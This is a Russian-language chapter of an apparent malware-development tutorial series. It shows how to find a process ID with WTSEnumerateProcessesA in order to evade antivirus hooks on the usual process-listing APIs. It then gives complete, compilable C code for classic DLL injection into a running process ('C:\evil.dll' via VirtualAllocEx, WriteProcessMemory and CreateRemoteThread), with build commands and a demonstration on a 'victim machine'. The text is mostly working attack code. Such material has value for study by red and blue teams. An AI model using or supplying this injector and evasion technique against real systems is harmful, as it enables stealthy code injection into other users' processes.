







\newpage
\subsection{45. трюк разработки вредоносного ПО. Поиск PID через WTSEnumerateProcesses. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}      

Сегодня я хочу сосредоточить своё исследование на ещё одном трюке разработки вредоносного ПО: перечислении процессов и поиске PID через `WTSEnumerateProcesses`. Это распространённая техника, которая также может использоваться вредоносным ПО для обхода антивирусных решений.    

### WTSEnumerateProcessesA в WinAPI

Функция `WTSEnumerateProcessesA` - это API Windows, которое получает информацию об активных процессах на указанном терминальном сервере:      

```cpp
BOOL WTSEnumerateProcessesA(
  WTS_CURRENT_SERVER_HANDLE hServer,
  DWORD                     Reserved,
  DWORD                     Version,
  PWTS_PROCESS_INFOA        *ppProcessInfo,
  DWORD                     *pdwCount
);
```

`WTSEnumerateProcessesA` в первую очередь используется для перечисления процессов, запущенных на терминальном сервере, и может быть полезна для диагностики и устранения неполадок.       

### практический пример

Функции WTS API являются частью `wtsapi32.dll`, поэтому нам нужно подключить эту библиотеку. В приведённом фрагменте кода используется следующая директива для линковки:

```cpp
#pragma comment(lib, "wtsapi32.lib")
```

Затем просто создаём функцию для перечисления процессов:     

```cpp
int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}
```

Как можно заметить, логика довольно простая: просто сравниваем имя процесса и получаем его PID.      

Полный исходный код выглядит следующим образом (`hack.c`):     

```cpp
/*
 * process find via WTSEnumerateProcessesA logic
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = findMyProc(argv[1]);
  if (pid > 0) {
  printf("pid = %d\n", pid);
  }
  return 0;
}
```

Keep in mind that this function may not retrieve the process identifier for some types of processes, such as system processes or processes that are protected by certain types of security software. In addition, certain types of security software may block calls to this function entirely. The same applies if you're running in an environment with restricted permissions.       

Also, `WTSEnumerateProcesses` requires the `SeTcbPrivilege` to be enabled, but this is normally enabled for administrators, but I didn't check it.     

### демонстрация

Давайте посмотрим этот трюк в действии.     

Компилируем (`hack.c`):      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lwtsapi32
```

{width="80%"}      

Как можно заметить, при сборке этой программы необходимо линковаться с `wtsapi32.lib`. Я использую компилятор на основе GCC (например, `MinGW`), поэтому могу сделать это, добавив `-lwtsapi32` к команде компиляции.     

Затем просто запускаем его на машине жертвы (`Windows 10 22H2 x64` в моём случае):      

```powershell
.\hack.exe <process>
```

{width="80%"}      

{width="80%"}      

{width="80%"}      

Как можно заметить, всё сработало идеально, как и ожидалось :) =^..^=    

Как я писал ранее, теоретически пользователь должен иметь разрешение `Query Information`. Кроме того, вызывающий процесс должен обладать привилегией `SE_TCB_NAME`. Если вызывающий процесс работает в пользовательской сессии, функция `WTSEnumerateProcesses` получает информацию только о процессах текущей сессии.       

На мой взгляд, если ваше вредоносное ПО или сервис работает от имени `Local System`, у него будет достаточно привилегий.     

Также, возможно, этот трюк можно использовать для обхода некоторых решений в области кибербезопасности, так как многие системы обнаруживают только известные функции, такие как `CreateToolhelp32Snapshot`, `Process32First`, `Process32Next`. По этой же причине этот метод может быть сложен для анализа многими исследователями вредоносного ПО.     

### практический пример 2. поиск и инъекция

Давайте рассмотрим другой пример с вредоносной логикой. Найдём идентификатор процесса по имени и внедрим в него DLL.      

Исходный код аналогичен моему [посту](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) или [этому](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html). Единственное отличие - это логика функции `findMyProc` (`hack2.c`):       

```cpp
/*
 * hack2.cpp - find process ID
 * by WTSEnumerateProcessesA and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

### демонстрация "вредоносного" ПО

Давайте продемонстрируем нашу инъекцию.     

Компилируем:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwtsapi32
```

{width="80%"}      

Запускаем для поиска и инъекции в `mspaint.exe`:       

```powershell
.\hack2.exe mspaint.exe
```

{width="80%"}      

Как можно заметить, наш messagebox был внедрён в `mspaint.exe` с `PID = 3048`, как и ожидалось. Идеально! =^..^=     

Этот трюк используется иранской кибершпионской группой [CopyKittens](https://attack.mitre.org/groups/G0052/). Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[WTSEnumerateProcessesA](https://learn.microsoft.com/en-us/windows/win32/api/wtsapi32/nf-wtsapi32-wtsenumerateprocessesa)       
[Find PID by name and inject to it. "Classic" implementation.](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)       
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)       
[CopyKittens](https://attack.mitre.org/groups/G0052/)     
[Malpedia: CopyKittens](https://malpedia.caad.fkie.fraunhofer.de/actor/copykittens)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-07-malware-trick-34)           
